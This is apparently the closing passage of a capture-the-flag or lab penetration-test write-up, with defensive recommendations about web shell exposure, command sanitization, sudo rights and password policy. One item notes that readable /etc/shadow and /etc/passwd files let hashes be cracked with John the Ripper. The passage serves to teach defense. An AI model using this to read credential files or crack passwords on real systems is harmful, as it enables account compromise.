

**…and the objective is achieved!!!!*

##  Recommendations

1.	Always avoid web shell exposure and restrict access using access lists or any other possible means.
2.	It is recommended to strengthen input filters for better sanitization and inspection of piped commands.
3.	Grant super user do (sudo) privileges to necessary users only.
4.	Password Policy Enforcement. Users like Elliot intentionally exposed their password in plain text.
5.	One could use John the Ripper to crack password hashes because both the files /etc/shadow and /etc/passwd are readable by user bob. Hashed passwords for users can be retrieved and cracked easily.

